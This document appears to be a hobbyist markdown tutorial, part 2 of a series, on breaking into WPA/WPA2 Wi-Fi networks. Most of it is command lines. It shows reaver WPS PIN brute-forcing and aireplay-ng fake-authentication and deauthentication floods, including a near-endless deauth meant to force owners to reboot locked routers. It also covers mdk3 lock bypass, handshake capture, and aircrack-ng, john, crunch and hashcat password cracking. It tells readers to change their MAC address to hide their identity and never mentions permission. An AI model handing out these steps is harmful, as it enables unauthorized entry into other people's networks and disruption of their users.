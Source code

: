 # Wifi-Cracking (Part-2) [ WPA/WPA2 CRACKING]


This is part-2 on wifi-cracking and in this writeup we will be discussing on WPA/WPA2 networks.

**NOTE: always check your wireless adapter mode is set to managed before connecting to network because you can't connect to network in monitor mode its only used for packet capture purpose and you can change your MAC Address before attack to increase anonmity and to protect your identity**

Most guaranteed attack to crack WPA/WPA2 is to use the tool **reaver** when WPS is enabled but It not works on all routers specially on new ones  it only works against **PBC auth** types  many of you loose hope in the case of routers cracking but keep patience and try to **debug** reaver output.


At first to know WPS enabled routers near you : Run

```bash
root@kali:~# wash -i wlan0

```
select the MAC Adress of target routers and paste after bssid field.

```bash
root@kali:~# reaver --bssid           --channel -i wlan0

```
If you are lucky it will be executed successfully but it will  take sometime to get pin (but if you get error) like this

```bash
[!]WARNING: Failed to associate with  5D:A8:6A:A9:4C:5I (ESSID: CRACKME)

```
If you are getting this error quit the program than simply split the bash screen and use **aireplay-ng** to associate with target to do fake authentication attack with the help of below command.

```bash
root@kali:~# aireplay-ng --fakeauth 100 -a { MAC Address of target router} -h {MAC Address of your wireless card} wlan0

```
> You can get the  MAC Address of your wireless card just by ifconfig wlano (it will be the unspec field)

The above command is doing a fake authentication attack to associate with target and i want a delay of 100 sec between association attempts but wait before you press  enter run your previous command with -A and than run this command.

```bash
root@kali:~# reaver --bssid           --channel -i wlan0 -A

```
(-A) helps to not associate with target you can see all available options with reaver by using **reaver --help**
by running the command you might get this thing in bash :

```bash
root@kali:~# reaver --bssid  5D:A8:6A:A9:4C:5I --channel 11 -i wlan0 -A


[+] Assciated with 5D:A8:6A:A9:4C:5I  (ESSID: CRACKME)
[+] 0.00% completed @ 2020-05-08 22:17:45 (0 seconds/pin)
[+] 0.00% completed @ 2020-05-08 22:17:45 (0 seconds/pin)

```
Our association problem is solved but we still are not able to get pin if you try some debugging with -VVV(Verbose mode ):

```bash
root@kali:~# reaver --bssid  5D:A8:6A:A9:4C:5I --channel 11 -i wlan0 -A -vvv --no-nacks

```
It will brute-force to get pin and may take some time to bypass the router.
Sometimes it's easy to deal WPS things because many people don't change there default pins which are easily crackable while doing this stuff sometimes you will face some routers get locked after some failed attempts  and it make take many hours to unlock or may be some days but we  can't wait for that long to crack it the best hack to deal this problem is deauthenticate all users from that router to a long period of time  and than admin have to restart the router because of the annoying behaviour of router.

```bash
root@kali:~# aireplay-ng --deauth 10000000000000000 -a { MAC Address of router } wlan0

```

The success rate of our deauthentication attack is high but there is always an alternate option **mdk3** it is the tool designed to exploit a number of weaknesses in 802.11 protocol (we can use it to remotely unlock the locked router )

```bash
root@kali:~# mdk3 --help

```
To see all available options and how to use it than simple run

```
root@kali:~# mdk3 a -a { MAC Address of router which is locked } -m

```
it mostly give successfull results on many router after this just run the reaver command to brute-force pin.

```
root@kali:~# reaver --bssid           --channel -i wlan0

```

---



##### If now WPS is disabled or if you tried everything and it doesn't work  you are left out with two more options.

- WORDLIST ATTACKS

- EVIL TWIN ATTACKS


So lets first talk about wordlist attack this is going to work on all WPA/WPA2 networks but it totally depends how strong your  **wordlist** and how quick your **machine** is .Issue with this attack is large wordlist is going to take huge space of your hardisk and if password is very hard to crack it may take 2-3 days or even a week.But don't worry that's why you are here I am going to tell you some efficient ways to do this attack.

So lets deal with first issue that large wordlist are going to take longer time and **aircrack-ng** does not save the progress.

First you will need to capture the  **handshake** file  and  need a wordlist to perform this attack.
You can find many wordlist online and even you can generate your own wordlist if you know some of characters of Password.

```bash
root@kali:~# airodump-ng wlan0

root@kali:~ airodump-ng --channel {channel no. of the selected wireless network} -w {name of captured file} --bssid {bssid no.} {name of wireless network}

```
e.g
```bash
root@kali:~# airodump-ng --channel 1  -- bssid  56:13:58:76:5B:55  --write handshake.cap wlan0

```

By running the first command get all networks bssid and channel and the run the second command to get handshake but handshake is generated only when the new client is connected to that so are you going to wait that long ? Obviously no run a deauthentication attack to disconnect a client and then when he tries to connect you will get a handshake.

After this,

```bash
root@kali:~# aircrack-ng handshake.cap -w { name of wordlist }

```

After this it will run to get the password but it will take some time and if you get frustrated and quit the program it and it will stop and if you try to run again it will restart. So takeover this we are going to use a classical tool **john the reaper**
and pipe it with **aircrack-ng**

```bash
root@kali:~# john --wordlist= { name of wordlist } --stdout | aircrack-ng -w - -b { MAC Address of target } handshake.cap

```
e.g

```bash
root@kali:~# john --wordlist=crack_wordlist --stdout --session=upc | aircrack-ng -w - -b 56:13:58:76:5B:55  handshake.cap

```

the above command before the pipe is outputing the wordlist with a session id and we are using the output wordlist to the second command after the pipe So the run command for some action and if you terminate the action you can restore it by the following command.

```bash
root@kali:~# john --restore=upc | aircrack-ng -w - -b 56:13:58:76:5B:55  handshake.cap

```
Now you can use **crunch** to generate wordlist if your familiar to crunch than it's okay otherwise feel free to see the entire manual for **crunch** by using  command *man crunch* command or see it online the general way to generate it is

```bash
root@kali:~# crunch 8 8 -o all.txt
Crunch will now generate the following amount of data 1879443581184 bytes
1792377 MB
1750 GB
1 TB
0 PB
Crunch will now generate the following number of files: 208827064547

```
So what do you think you have that much of space in your hardisk for that wordlist or you just need a  solution to  solve this, you can also combine the **aircrack-ng** with crunch with just omiting -o .

```bash
root@kali:~# crunch 8 8 | aircrack-ng  -b  56:13:58:76:5B:55 -w - handshake.cap

```

Here you get your job done with crunch please see crunch in details because you if you know some characters and spaces it help you a lot and increase the chance to crack WPA/WPA2 faster.

Let's combine all three concepts **john the reaper**, **crunch** and **aircrack-ng** to increase our cracking efficiency.
crunch  will generate the password jhon the reaper will save and restore the progress and aircrack will do it's cracking part.

```bash
root@kali:~# crunch 8 8 | john --stdin --session=session1 --stdout | aircrack-ng  -b  56:13:58:76:5B:55 -w - handshake.cap

```

Here you got your job done with some perfection and to restore this process

```bash
root@kali:~# crunch 8 8 | john --restore=session1 | aircrack-ng  -b  56:13:58:76:5B:55 -w - handshake.cap

```
---

Using all this methods is okay but you can boost the process if you use your **GPU** because it is designed to carry out repetitive task fasts which means its more efficient than CPU and cracking hashes is a repetitive task.

Condition to do this your system must have a powerful GPU or good graphics card  and we are going to use **hashcat** and you can download it from from [here](https://hashcat.net/hashcat/) and we are using this tool because can't us
aircrack-ng does not allow graphics card in cracking.

**NOTE: Use a WINDOWS machine because mosts GPU's have driver for windows and its heck disturbing to download driver for linux system if you can download it in your linux system you are free to do it and if you are using in WINDOWS first download the driver for your system whatever you have  Nvdia or AMD**


After downloading and extracting hashcat you need to convert your handshake file from .cap extension to .hccapx  extension
which is the extension supported by hashcat you can convert it from [here](https://hashcat.net/cap2hccapx/), (in ESSID field just enter name of the network) after converting download it keep your wordlist and handshake.hccapx file in same directory where you downloaded hashcat.

open your windows terminal

```bash
c:\user\error> cd/
(go to the root directory)

c:\> dir
(to list all files and go to hashcat)



c:\>cd hashcat-3.6.0
c:\hashcat-3.6.0> dir
(you will see 32-bit and 64-bit run which compatible to your device )

c:\hashcat-3.6.0>hashcat64.exe --help
(it will list all possible ways to run it )

c:\hashcat-3.6.0>hashcat64.exe -I
(it will list all possible device CPU AND GPU to perform attack)

c:\hashcat-3.6.0> hashcat.exe -m 2500 -d 1 handshake.hccapx wordlist.txt


```
> (-m 2500 specify which hash your are going to crack -d 1 is use to specify use GPU which listed first when we -I command)
You can use p and r to pause and resume the process you will see how fast it works

Your JOB will be done very fast as compare to CPU.
